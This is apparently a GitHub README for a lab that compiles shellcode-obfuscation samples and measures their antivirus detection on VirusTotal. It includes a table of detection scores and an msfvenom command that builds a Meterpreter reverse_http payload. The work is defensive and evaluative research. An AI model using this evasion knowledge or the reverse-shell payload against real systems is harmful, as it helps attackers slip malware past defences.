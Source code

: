 # SOL ShellcodeObfuscationLab

Shellcode obfuscations laboratory based on RedSiege [Chromatophore](https://github.com/RedSiege/Chromatophore/). 


## Background

I see RedTeam research like [Adventures in Shellcode Obfuscation!](https://redsiege.com/blog/2024/09/adventures-in-shellcode-obfuscation-part-14-further-research/), a 
[14 part series](https://redsiege.com/adventures-in-shellcode-obfuscation/)
of hiding shellcode using various different encryption- or encoding ciphers. 

In the security scene, the myth perpetuates: How you encode a shellcode has an
influence on the detection rate. The assumption is, that somehow an AV or security software
has a unique ability to automagically reverse engineer encryption ciphers, and also
have a quantum computer integrated to crack the key. 

The truth is: AV doesnt know shit. 

RedSiege came to the following wrong result:

| Technique          | VT Score |
| ------------------ | -------- |
| XOR Multibyte Key  | 2        |
| Offsets            | 2        |
| Jargon             | 3        |
| Reverse Byte Order | 4        |
| Jigsaw             | 4        |
| Reversed Byte XOR  | 5        |
| IPv4               | 6        |
| MAC Address        | 6        |
| Caesar             | 7        |
| RC4                | 7        |
| XOR                | 8        |
| AES                | 8        |
| Two Array          | 8        |
| Reverse String     | 13       |
| UUID               | 13       |
| Base64             | 18       |
| No Obfuscation     | 27       |


But didnt attempt to question the data. There are some issues with it: 

* Why are the top three Base64, UUID, and reverse hex string? Especially the later is very obscure
* No negative test (without malicious shellcode)
* Some programs are written in C, some in C#
* Some use WinAPI (AES, RC4, UUID) which are either an IOC, or may block AV emulator
* ReverseXor brute forces the key
* In jargon.c they mention that Defender detects the decryption routine itself. Same in xor_multibyte
* As they store the shellcode in a variable, static analysis tools can try out their deobfuscation on all the variables (explains high detection of ReverseString and Base64)
* Scans performed with large intervals between them (weeks?)

Which means that the test has been performed wrong, and the results are invalid, 
and conclusions based on the data are misleading. 

Luckily RedSiege published the [shellcode encoder sources](https://github.com/RedSiege/Chromatophore).
I made this framework based on it to test it for myself. 


## Predictions

* Which encryption you use doesnt matter - they all equally resistant to analysis
* Using windows API's will increase detection rate


## Results

Tests have been performed with either "random" - a alphanumeric 20 byte string as "shellcode". And "metasploit" 
with output of `msfvenom -p windows/x64/meterpreter/reverse_http LHOST=192.168.190.134 LPORT=80 -f raw -o beacon.bin`. 
The "metasploit" does not execute the shellcode, only decodes and prints it. 

Conclusion: 
* The type of encoding/encryption doesnt matter
* More important is if a windows API is being used/imported (static analysis, e.g. IAT in PE)
* Note that the "NO-obfuscation" (plaintext) metasploit outperforms AES encryption, base64 windows api, ip-, mac- and uuid-encoding
* VirusTotal has maybe one memory scanner. The rest seem to be static analysis. 

| **What**           | **Library**           | **Includes**              | **Function / IAT**                 | **Random** | **Metasploit** |
| ------------------ | --------------------- | ------------------------- | ---------------------------------- | ---------- | -------------- |
| [aes](https://github.com/dobin/ShellcodeObfuscationLab/blob/main/lab_results/metasploit/aes_work.c)                | crypt32.lib, advapi32 | wincrypt.h                | Crypt\*                            | **5**          | **6**              |
| [base64](https://github.com/dobin/ShellcodeObfuscationLab/blob/main/lab_results/metasploit/base64_work.c)             | \-                    | \-                        | \-                                 | 3          | 3              |
| [base64api](https://github.com/dobin/ShellcodeObfuscationLab/blob/main/lab_results/metasploit/base64api_work.c)          | crypt32.lib           | wincrypt.h                | CryptStringToBinaryA               | **5**          | **6**              |
| [bin2ip](https://github.com/dobin/ShellcodeObfuscationLab/blob/main/lab_results/metasploit/bin2ip_work.c)             | Ntdll.lib             | ntstatus.h<br>Ip2string.h | RtlIpv4StringToAddressA            | **8**          | **10**             |
| [bin2mac](https://github.com/dobin/ShellcodeObfuscationLab/blob/main/lab_results/metasploit/bin2mac_work.c)            | Ntdll.lib             | ntstatus.h<br>Ip2string.h | RtlEthernetStringToAddressA        | **8**          | **18**             |
| [caesar](https://github.com/dobin/ShellcodeObfuscationLab/blob/main/lab_results/metasploit/caesar_work.c)              | \-                    | \-                        | \-                                 | 2          | 2              |
| [jargon](https://github.com/dobin/ShellcodeObfuscationLab/blob/main/lab_results/metasploit/jargon_work.c)             | \-                    | \-                        | \-                                 | 3          | 2              |
| [jigsaw](https://github.com/dobin/ShellcodeObfuscationLab/blob/main/lab_results/metasploit/jigsaw_work.c)             | \-                    | \-                        | \-                                 | 2          | 3              |
| [offset](https://github.com/dobin/ShellcodeObfuscationLab/blob/main/lab_results/metasploit/offset_work.c)             | \-                    | \-                        | \-                                 | 2          | 3              |
| [rc4api](https://github.com/dobin/ShellcodeObfuscationLab/blob/main/lab_results/metasploit/rc4api_work.c)             | \-                    | \-                        | GetProcAddress (SystemFunction033) | 2          | 2              |
| [reverse_byte_order](https://github.com/dobin/ShellcodeObfuscationLab/blob/main/lab_results/metasploit/reverse_byte_order_work.c) | \-                    | \-                        | \-                                 | 2          | 2              |
| [reverse_hex_string](https://github.com/dobin/ShellcodeObfuscationLab/blob/main/lab_results/metasploit/reverse_hex_string_work.c) | \-                    | \-                        | \-                                 | 2          | 2              |
| [twoarray](https://github.com/dobin/ShellcodeObfuscationLab/blob/main/lab_results/metasploit/twoarray_work.c)           | \-                    | \-                        | \-                                 | 2          | 3              |
| [uuidapi](https://github.com/dobin/ShellcodeObfuscationLab/blob/main/lab_results/metasploit/uuidapi_work.c)            | rpcrt4.lib            | rpc.h                     | UuidFromStringA                    | **8**          | **11**             |
| [xor_multibyte](https://github.com/dobin/ShellcodeObfuscationLab/blob/main/lab_results/metasploit/xor_multibyte_work.c)      | \-                    | \-                        | \-                                 | 1          | 2              |
| [xor_reverse](https://github.com/dobin/ShellcodeObfuscationLab/blob/main/lab_results/metasploit/xor_reverse_work.c)        | \-                    | \-                        | \-                                 | 2          | 3              |
| [xor_single](https://github.com/dobin/ShellcodeObfuscationLab/blob/main/lab_results/metasploit/xor_single_work.c)         | \-                    | \-                        | \-                                 | 1          | 3              |
| [**NO OBFUSCATION**](https://github.com/dobin/ShellcodeObfuscationLab/blob/main/lab_results/metasploit/noobfuscation_work.c)     | \-                    | \-                        | \-                                 | 2          | 3              |


The results of the test are at [lab_results/](https://github.com/dobin/ShellcodeObfuscationLab/tree/main/lab_results). 
For example the generated [aes.c source code](https://github.com/dobin/ShellcodeObfuscationLab/blob/main/lab_results/metasploit/aes_work.c),
and its [VirusTotal result](https://github.com/dobin/ShellcodeObfuscationLab/blob/main/lab_results/metasploit/aes.exe.json).


## SOL Usage

Use the `x64 native tools command prompt` from Visual Studio so you have access to `ml.exe` and `Windows.h`. 

To compile all the source from `chromatophore/` into `output/*.exe`:
```
> python.exe sol.py compile
```

To send all the exes to VirusTotal:

```
> set VT_API_KEY=123...
> python.exe sol.py vt
```

Output is in `output/*.exe.json` and `output/scan_results.txt`. 

